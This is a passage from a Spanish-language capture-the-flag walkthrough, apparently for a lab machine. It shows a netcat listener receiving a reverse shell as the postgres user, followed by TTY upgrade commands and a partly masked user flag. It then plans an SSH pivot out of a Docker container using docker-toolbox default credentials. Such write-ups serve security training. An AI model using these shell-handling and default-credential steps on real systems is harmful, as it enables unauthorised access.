 - Ganamos acceso al sistema

```bash
❯ nc -nlvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.10.236 50701
bash: cannot set terminal process group (2359): Inappropriate ioctl for device
bash: no job control in this shell
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$
```

---------------
# TRATAMIENTO DE LA TTY

```bash
script /dev/null -c bash

CTRL + Z 

stty raw -echo;fg

reset xterm

export TERM=xterm

export SHELL=bash

stty rows 38 columns 183
```

---------------------
# ESCALADA DE PRIVILEGIOS

>Capturamos la `flag user`

```bash
postgres@bc56e3cc55e9:/var/lib/postgresql$ cat user.txt 
f0183e4437**********  flag.txt
```

- Como podemos intuir estamos dentro de un contenedor de `Docker` que lo mas probable este corriendo `docker-toolbox` por debajo, las credenciales por defecto de este son `docker` y `tcuser` por lo que vamos a probar a conectarnos de la siguiente forma.

>Comprobamos que estamos dentro de un contenedor

```bash
postgres@bc56e3cc55e9:/var/lib/postgresql/.ssh$ hostname -I
172.17.0.2
```

- Comprobamos que `ssh` esta instalado dentro del container
```bash
postgres@bc56e3cc55e9:/var/lib/postgresql/.ssh$ which ssh
/usr/bin/ssh
```
